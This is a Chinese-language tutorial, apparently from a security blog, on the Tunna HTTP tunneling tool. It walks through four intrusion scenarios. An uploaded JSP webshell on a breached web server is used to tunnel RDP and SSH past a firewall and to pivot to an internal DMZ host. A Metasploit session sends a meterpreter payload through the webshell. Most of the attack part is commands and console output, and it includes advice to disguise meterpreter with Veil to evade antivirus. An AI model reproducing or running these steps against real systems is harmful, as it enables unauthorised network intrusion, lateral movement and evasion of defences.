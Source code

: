 # tunna工具使用实例

### 原理:就是个HTTP tunneling工具

```
 +-------------------------------------------+                     +-------------------------------------------+
 | Local Host                                |                     | Remote Host                               |
 |-------------------------------------------|                     |-------------------------------------------|
 |   +----------+       +------------+       |   +-------------+   |   +------------+        +----------+      |
 |   |Client App|+----->|Local Proxy |<==========|  Firewall   |======>|  Webshell  |+------>|Server App|      |
 |   +----------+       +------------+       |   +-------------+   |   +------------+        +----------+      |
 +-------------------------------------------+                     +------------------------------------------ +

```

可以看出该工具先使用proxy.py监听本地一个端口,然后连接部署在远程WEB的webshell,远端的webshell会把端口转发请求转发到本地或者本地内网远程的主机,从而实现HTTP tunneling.这对于内网入侵来说,是很有用的一个工具.

该工具看起来是不是有似曾相识的感觉,恩.其实和reduh原理是一样的,不过tunna更稳定,速度更快.

下载地址是:[http://www.secforce.com/media/tools/tunna_v0.1.zip](http://www.secforce.com/media/tools/tunna_v0.1.zip)

下面讲解4个实例,就能掌握该工具使用方法了.

### 实例1:

网站对外只开放了80端口,其他的端口都是关闭的,通过CVE-2013-225得到JSP的WEBSHELL后,上传conn.jsp,做转发,实现连接本机的其他端口.

直接扫描发现3389是关闭的

```
mickey@pentest:~# nmap -sS -p3389 219.x.x.x

Starting Nmap 6.40 ( http://nmap.org ) at 2013-09-26 22:47 EDT
Nmap scan report for 219.x.x.x
Host is up (0.0088s latency).
PORT     STATE SERVICE
3389/tcp close  

```

通过webshell上传conn.jsp到主机上,本地开始连接

```
python proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -r 3389 -v

```

参数含义如下:

```
-l 表示本地监听的端口
-r 远程要转发的端口
-v 详细模式

```

然后本地执行

```
rdesktop 127.0.0.1:1234

```

就可以连接到目标的3389了

![如图1](http://drops.javaweb.org/uploads/images/d6b0cf1c7988e25be58f89255be1f3505a57c336.jpg)

### 实例2:

对于有些服务,比如SSH,还需要添加-s参数,才能保证连接的时候不会中断.

```
python proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -r 22 -v -s





ssh localhost -p 1234

```

![enter image description here](http://drops.javaweb.org/uploads/images/3e0203b27ae746c2ae8f22512052cd2af25940ba.jpg)

### 实例3:

场景:已经得到DMZ区的一台主机的JSPSHELL,该主机的内网IP是172.16.100.20,通过查点,发现DMZ区还有其他的主机(172.16.100.20),并且开放了3389,我们想利用HTTP tunneling,连接到172.16.100.20的3389,命令如下

```
python2.7 proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -a 172.16.100.20 -r 3389

```

这里多了一个-a参数,意义是要转发的IP

### 实例4:

对于喜欢metasploit的朋友,该工具也支持,不过如果对方有杀软的话,建议先用veil做好meterpreter的免杀.

首先把tunna_exploit.rb拷贝到msf的modules/exploits/windows/misc目录.

```
cp ~/tunna_exploit.rb /root/metasploit-framework/modules/exploits/windows/misc

```

然后开始利用

```
msf > use exploit/windows/misc/tunna_exploit
msf exploit(tunna_exploit) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(tunna_exploit) > set RHOST 1.3.3.7  <-- 注意这里是指本地的公网IP
RHOST => 1.3.3.7
msf exploit(tunna_exploit) > set TARGETURI http://219.x.x.x:8080/conn.jsp
TARGETURI => http://219.x.x.x:8080/conn.jsp
msf exploit(tunna_exploit) > set VERBOSE true
VERBOSE => true
msf exploit(tunna_exploit) > exploit -j

```

tunna除了支持jsp还支持以下环境和脚本

conn.jsp Tested on Apache Tomcat (windows + linux) conn.aspx Tested on IIS 6+8 (windows server 2003/2012) conn.php Tested on LAMP + XAMPP + IIS (windows + linux)

使用的时候需要注意:metasploit里的脚本只对应metasploit使用.
